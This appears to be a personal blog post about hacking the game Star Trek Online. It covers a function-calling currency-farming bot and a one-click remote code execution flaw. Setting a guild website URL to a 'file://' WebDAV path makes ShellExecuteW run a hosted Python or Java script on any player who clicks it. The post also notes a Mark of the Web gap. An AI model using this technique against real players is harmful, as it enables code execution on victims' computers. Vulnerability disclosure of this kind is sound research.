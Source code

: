 # Star Trek Online

In July 2023, I came across a video from [DEF CON 25](https://www.youtube.com/watch?v=ZAUf_ygqsDo&t). where the presenter, called Manfred describes his journey into game hacking over the past 20 years. The video fascinated me so much that I decided I wanted to give it a try as well. However, I didn’t have the necessary skills or knowledge—apart from a few hours spent experimenting with Cheat Engine, some basic knowledge of Python, and a little understanding of C++ syntax. I downloaded x64dbg and Ghidra and began experimenting without any guides.

For my experiments, I chose an older game, Star Trek Online, which didn’t have anti-cheat measures (which was very helpful). Back in 2014, I had watched a video by a person named Skybuck Flying, who had created a simple but effective bot to generate in-game currency. It was a bot that used image recognition and clicked buttons in the game window. However, this limited the ability to use your computer, as the bot would take control of the mouse, and you could only watch.

I found this approach to be quite amateurish and difficult to scale. After about four months, I managed to program my first bot prototype. Instead of using the mouse/keyboard and image recognition, my bot directly called functions from the game’s process. I could also close the game window and still have up to 40 instances of the game running at once, without needing expensive hardware (a $20 Windows VPS was all it took).

Once I had achieved my initial goal, I decided to look for bugs and exploits in the game. I found several, but perhaps the most significant was a 1-click remote code execution exploit on the victim’s computer. All it took was convincing the victim to click a button in the game to visit the guild website. The only condition was that the victim needed to have Python or Java installed. Files like .py or .jar don’t have the "Mark of the Web" assigned to them when downloaded from the internet. (If you bypass the Mark of the Web, you can even run an .exe file, though such an exploit could be sold for a lot of money so nobody will use it for hacking players of a small MMORPG.)

## How does it work ?

Game is using WinAPI Function ShellExecuteW to open URLs 

```c++
HINSTANCE ShellExecuteW(
  [in, optional] HWND    hwnd,
  [in, optional] LPCWSTR lpOperation,
  [in]           LPCWSTR lpFile,
  [in, optional] LPCWSTR lpParameters,
  [in, optional] LPCWSTR lpDirectory,
  [in]           INT     nShowCmd
);
end
```
The value of the lpOperation parameter is set to L"open", which allows us, for example, to open the command line when clicking on the "Visit website" button if we set the guild's URL as "cmd.exe" as the guild master. This becomes interesting when we host our own WebDAV server, upload our custom Python/Java code to it, and then set the guild website URL to something like
```
file://webdavurl/code.py
```
Using URI scheme "file://" is important as it is being used by Windows for WebDAV servers and when ShellExecuteW is called with lpOperation param L"open" and lpFile set as URL of our WebDAV server Windows will open and run code.py automatically, this can lead to remote code execution.

<iframe width="560" height="315" src="https://www.youtube.com/embed/7DsEKg5_Ocw?si=7iXN1XVoejrtHdZQ" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>

<br>
Thanks for reading, hope you enjoyed it, in next blog post i will talk about weaponizing .rdp files.

